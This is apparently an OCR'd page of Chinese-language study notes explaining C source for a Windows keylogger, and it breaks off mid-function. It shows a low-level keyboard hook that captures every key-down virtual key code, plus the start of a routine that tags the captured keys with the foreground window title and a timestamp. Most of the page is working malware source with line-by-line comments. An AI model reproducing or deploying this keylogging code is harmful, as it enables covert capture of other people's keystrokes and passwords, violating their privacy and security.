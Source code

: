 通过钩子处理函数**`lp_Hookfunc`**的参数，可以获取和处理键盘事件的相关信息，并根据需要决定是否阻止事件传递或进行特殊处理

```c
LRESULT __stdcall lp_Hookfunc(int nCode, WPARAM wParam, LPARAM lParam)
{
    if (nCode >= 0) //nCode分为3种情况
    {
        if (wParam == WM_KEYDOWN)// 表示按下一个键。
        {
            kbdStruct = *((KBDLLHOOKSTRUCT*)lParam);//指向的是一个KBDLLHOOKSTRUCT
            output_bufRead(kbdStruct.vkCode);//取出其中的虚拟键码
        }
    }

    // call the next hook in the hook chain. This is nessecary or your hook chain will break and the hook stops
    return CallNextHookEx(g_hook, nCode, wParam, lParam);
}
```

### output_bufRead

- 代码
    
    ```c
    int output_bufRead(int virtual_key)//传入的是虚拟键码
    {
        std::stringstream output;
        static char lastwindow[256] = "";//静态的,类似于全局
        if ((virtual_key == 1) || (virtual_key == 2))
        {
            return 0; //忽略
        }
    
        HWND curGround = GetForegroundWindow();//确定当前活动窗口，即用户当前正在使用的窗口。它可以用于确定哪个窗口接收键盘输入、鼠标点击等用户输入事件
        DWORD threadID;
        HKL keyboard_layout = NULL;
    
        if (curGround)
        {      
            threadID = GetWindowThreadProcessId(curGround, NULL);
            keyboard_layout = GetKeyboardLayout(threadID);//键盘布局
        }
    
        //作用就算是否要换行重新显示附带标题
        if (curGround)
        {
            char cur_window_title[256];
            GetWindowTextA(curGround, (LPSTR)cur_window_title, 256);//获取焦点窗口的名字
    
            if (strcmp(cur_window_title, lastwindow) != 0)
            {
                //再次输入的时候,窗口发生改变
    
                strcpy_s(lastwindow, sizeof(lastwindow), cur_window_title);
                time_t t = time(NULL);
                struct tm tm;
                localtime_s(&tm, &t);
                char cur_time[64];
                strftime(cur_time, sizeof(cur_time), "%c", &tm);
    